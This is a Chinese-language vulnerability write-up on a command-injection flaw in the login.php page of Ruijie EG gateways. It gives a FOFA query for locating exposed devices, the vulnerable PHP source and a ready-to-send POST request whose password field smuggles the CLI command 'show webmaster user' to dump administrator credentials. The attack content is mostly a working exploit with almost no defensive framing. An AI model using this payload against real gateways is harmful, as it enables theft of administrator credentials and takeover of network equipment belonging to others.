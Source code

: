 # 锐捷 EG易网关 login.php 管理员账号密码泄露漏洞

## 漏洞描述

锐捷EG易网关 login.php存在 CLI命令注入，导致管理员账号密码泄露漏洞

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-25.png)



漏洞文件 login.php



```php
<?php

/**
 * 用户登录处理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);

class defaultController {

    function __construct() {
        
    }

    /**
     * 登录处理
     */
    public function indexAction() {
$username = p("username");$password = p("password");$data = [];
$reg='/(\r|\n)+/';
if (count(preg_split($reg, $username)) > 1 || count(preg_split($reg, $password)) > 1) {
$data["status"] = 6;
$data["msg"] = "username or password can't exist '\r\n'";
json_echo($data);
exit();
}
        if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
        if ($isSuccess == 0) {    //用户名、账号验证成功
            session_start();
            $_SESSION['username'] = $username;  //记录用户名
            $_SESSION["lasttime"] = time();    //记录登录时间
            $config = @file_get_contents(DS . "data" . DS . "web.config");    //获取web配置信息
            if ($config != false) {
                $config = unserialize($config);
                $_SESSION["timeout"] = isset($config["loginTimeout"]) ? $config["loginTimeout"] * 60 : c("timeout");
            } else {
                $_SESSION["timeout"] = c("timeout");
            }
            setcookie("user", $_SESSION['username']);
        }
        $res["data"] = $isSuccess;
        json_echo($res);
    }

    /**
     * 获取设备信息
     */
    function versionAction() {
        $info = $version = execCli("exec", "show version detail", "");
        $info["data"] = preg_split("/\r*\n/", $info["data"]);
        json_echo($info);
    }

}

include_once(AROOT . "init.php");    //mvc初始化入口，放在底部
```



关键代码部分



```plain
if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
```



发送请求包，拼接 CLI指令 **show webmaster user**



```plain
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```



![img](../../../.vuepress/public/img/ruijie-26.png)



成功获取账号密码


